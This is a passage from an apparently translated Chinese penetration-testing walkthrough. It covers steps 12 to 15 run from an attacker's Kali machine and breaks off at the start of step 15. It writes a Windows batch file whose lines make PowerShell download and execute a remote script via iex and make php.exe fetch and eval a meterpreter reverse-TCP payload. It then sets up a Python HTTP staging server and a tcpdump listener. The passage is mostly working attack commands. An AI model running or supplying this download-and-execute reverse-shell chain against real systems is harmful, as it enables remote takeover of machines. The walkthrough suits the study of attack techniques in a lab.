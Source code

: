 12.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

创建一个 Windows 批处理文件(/tmp/backup.bat)。这个批处理文件由我们的最终负载文件(ruby.exe)调用。

```
LHOST=192.168.62.161
portweb=80
rshell=shell-25.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${portweb}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat
echo START /B c:\\Windows\\Tasks\\php.exe -d allow_url_fopen=true -r "eval(file_get_contents('http://$LHOST:$portweb/meterpreter_reverse_tcp.php'));" >>/tmp/backup.bat
```

![](img/a0eb0bc96e03b5b6b5981f4bc7ae29ca.png)

**设置所需的监听器**

接下来打开 Bash 终端的一个新实例。为每个“监听器”打开一个新标签。您需要为所有必需的侦听器打开 5 个选项卡。

13.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

设置 HTTP 登台程序，以便将重要文件下载到目标。

```
python3 -m http.server 80 — directory /tmp
```

![](img/f509a79bdb137148b169ff8770705516.png)

14.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

设置 TCPdump ICMP 侦听器(以解决网络问题)。在 VPN 上使用 tun0。

```
sudo tcpdump -i eth0 icmp
```

![](img/4d9b144eeaeaf5b83130b1d896ce9e6a.png)

15.在 192.168.62.161 上执行(攻击者机器，Kali Linux)
